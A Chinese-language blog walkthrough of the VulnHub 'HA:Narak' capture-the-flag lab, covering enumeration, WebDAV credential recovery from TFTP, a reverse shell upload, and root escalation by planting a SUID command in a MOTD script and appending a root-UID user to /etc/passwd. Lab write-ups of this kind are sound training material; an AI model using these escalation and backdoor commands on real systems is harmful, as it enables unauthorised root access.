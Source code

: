 ```yaml
---
layout: post
title: "Vulnhub HA:Narak Writeup"
tags: [Vulnhub, Pentest]
comments: true
---
```


# VulnHub  HA:Narak Writeup
## 前言

* Pentester

> Author: xxxeyJ   
> Blog: https://tricksongs.com/

* 靶机信息 (Target Information)

> Lab Name: HA:Narak   
> Date Release: 23 Sep 2020   
> Author: Hacking Articles   
> Series: HA   

* 文件信息 (File Information)

> Filename: narak.ova   
> File Size: 791 MB   
* Checksum   
> MD5: C058F595C60923998659C630CEA576E6   
> SHA1: 1340392A00BE6098CD0AEAFA26D2550FC4F2A459

* Download Link: https://www.vulnhub.com/entry/ha-narak,569/

## RECON

> Target IP Address: 192.168.0.103

首先使用 Nmap 扫一下端口;

![](https://tricksongs.com/images/HA_Narak/Ports.PNG)

看一下 80 端口，艺术气氛 MAX;

![](https://tricksongs.com/images/HA_Narak/Index.PNG)

> CTRL + U 看一下前端源码，发现引用了 images 目录下的图片文件，随手改一下路径，发现有个目录遍历的问题;

![](https://tricksongs.com/images/HA_Narak/SourceCode.PNG)

![](https://tricksongs.com/images/HA_Narak/ImagesIndex.PNG)

## ENUMERATION

跑一下字典看看有没有什么东西;

```Shell
xxxeyJ@localhost:~/Tools/ffuf$ ./ffuf -c -u http://192.168.0.103/FUZZ -w dict.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.0.103/FUZZ
 :: Wordlist         : FUZZ: dict.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

                        [Status: 200, Size: 2992, Words: 356, Lines: 68]
.hta                    [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccess               [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccess~              [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccess/              [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccess.bak           [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccess.bak1          [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccessbak            [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccessBAK            [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccess.inc           [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccess-dev           [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccess_extra         [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccessold            [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccess.BAK           [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccess-marco         [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccessOLD            [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccessOLD2           [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccess_orig          [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccess-local         [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccess.orig          [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccessold2           [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccess.save          [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccess.txt           [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccess_sc            [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccess.sample        [Status: 403, Size: 278, Words: 20, Lines: 10]
.htgroup                [Status: 403, Size: 278, Words: 20, Lines: 10]
.html                   [Status: 403, Size: 278, Words: 20, Lines: 10]
.htpasswd               [Status: 403, Size: 278, Words: 20, Lines: 10]
.htpasswd.bak           [Status: 403, Size: 278, Words: 20, Lines: 10]
.htpasswd/              [Status: 403, Size: 278, Words: 20, Lines: 10]
.htpasswd.inc           [Status: 403, Size: 278, Words: 20, Lines: 10]
.htpasswds              [Status: 403, Size: 278, Words: 20, Lines: 10]
.htpasswrd              [Status: 403, Size: 278, Words: 20, Lines: 10]
.htpasswd_test          [Status: 403, Size: 278, Words: 20, Lines: 10]
.htpasswd-old           [Status: 403, Size: 278, Words: 20, Lines: 10]
.ht_wsr.txt             [Status: 403, Size: 278, Words: 20, Lines: 10]
.htusers                [Status: 403, Size: 278, Words: 20, Lines: 10]
icons/                  [Status: 403, Size: 278, Words: 20, Lines: 10]
icons/small/            [Status: 403, Size: 278, Words: 20, Lines: 10]
images                  [Status: 301, Size: 315, Words: 20, Lines: 10]
images/                 [Status: 200, Size: 4566, Words: 239, Lines: 36]
index.html              [Status: 200, Size: 2992, Words: 356, Lines: 68]
index.phps              [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccess.old           [Status: 403, Size: 278, Words: 20, Lines: 10]
server-status/          [Status: 403, Size: 278, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10]
style.css               [Status: 200, Size: 23358, Words: 211, Lines: 232]
tips.txt                [Status: 200, Size: 58, Words: 12, Lines: 2]
webdav/servlet/org.apache.catalina.servlets.webdavservlet/ [Status: 401, Size: 460, Words: 42, Lines: 15]
webdav                  [Status: 401, Size: 460, Words: 42, Lines: 15]
webdav/servlet/org.apache.catalina.servlets.WebdavServlet/ [Status: 401, Size: 460, Words: 42, Lines: 15]
webdav/index.html       [Status: 401, Size: 460, Words: 42, Lines: 15]
webdav/servlet/webdav/  [Status: 401, Size: 460, Words: 42, Lines: 15]
webdav/                 [Status: 401, Size: 460, Words: 42, Lines: 15]
webdav/site/codul/users/cborgea3 [Status: 401, Size: 460, Words: 42, Lines: 15]
:: Progress: [76198/76198] :: Job [1/1] :: 12699 req/sec :: Duration: [0:00:06] :: Errors: 1 ::
```

icons 目录返回的状态码是 403，说明只有 images 目录配置不当，webdav 及其他几个子目录返回的状态码都是 401，访问一下发现 webdav 目录启用了基础认证(Basic Auth)，跑了一会字典无果;

![](https://tricksongs.com/images/HA_Narak/webdav_401.PNG)

查看一下 tips.txt 文件内容，提示可以在 creds.txt 中找到线索，把文件拼接在了 URL 后面，发现并不存在此文件;

![](https://tricksongs.com/images/HA_Narak/tips.PNG)

![](https://tricksongs.com/images/HA_Narak/NF.PNG)

80 端口到了这线索差不多就断了，然后看一下之前扫到的其他端口;

先看一下 tftp 服务，发现可以连接并获取到相关文件，很明显是 base64 编码后的内容，解码一下 get 到 WEBDAV 凭据;

![](https://tricksongs.com/images/HA_Narak/tftp.PNG)

> Username: yamdoot
> Password: Swarg

## EXPLOITATION

使用 **cadaver** 上传一个 Shell，访问一下即可将 Shell Session 反弹至指定的 IP:PORT;

![](https://tricksongs.com/images/HA_Narak/cadaver.PNG)

使用 Python 将哑 Shell 提升到可交互 Shell;

```Python
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

![](https://tricksongs.com/images/HA_Narak/REVERSE.PNG)

翻找系统中各类文件，发现 **/mnt/hell.sh** 的内容比较奇怪;

```Shell
#!/bin/bash
echo"Highway to Hell";
--[----->+<]>---.+++++.+.+++++++++++.--.+++[->+++<]>++.++++++.--[--->+<]>--.-----.++++.
```

> **Brainfuck** 解码后结果为: **chitragupt**，感觉是凭据，但不是一组，所以应该是某种密码;

![](https://tricksongs.com/images/HA_Narak/brainfuck.PNG)

尝试使用此密码登录 root 账户失败了;

![](https://tricksongs.com/images/HA_Narak/ROOT.PNG)

查看一下 passwd 用户表，发现除了常见的 Ubuntu 自有用户还多了几个以前没有见过的用户;

![](https://tricksongs.com/images/HA_Narak/inferno.PNG)

> 成功登入 inferno 账户，发现权限比 www-data 还小，好在 Get 到了 flag.txt;

![](https://tricksongs.com/images/HA_Narak/flag.PNG)

## PRIVILEGE ESCALATION

> 利用 **MOTD** 将权限提升为 root 用户;

```Shell
ssh inferno@192.168.0.103
which nano
ls -la /bin/nano
echo "sudo chmod u+s /bin/nano" >> /etc/update-motd.d/00-header
exit
```

使用 OpenSSL 生成 passwd 表中的 hash;

![](https://tricksongs.com/images/HA_Narak/openssl.PNG)

```Shell
ssh inferno@192.168.0.103
nano /etc/passwd
```

> 将 "hacking:$1$1337$EIeG0N38xUkEIB4U8P6fv/:0:0:root:/root:/bin/bash" 追加到 passwd 文件末尾;

```Shell
su hacking
cd ~
tail /etc/passwd
cat root.txt
```

![](https://tricksongs.com/images/HA_Narak/ROOTFLAG.PNG)

**Successfully got the flag!**

### **:)**
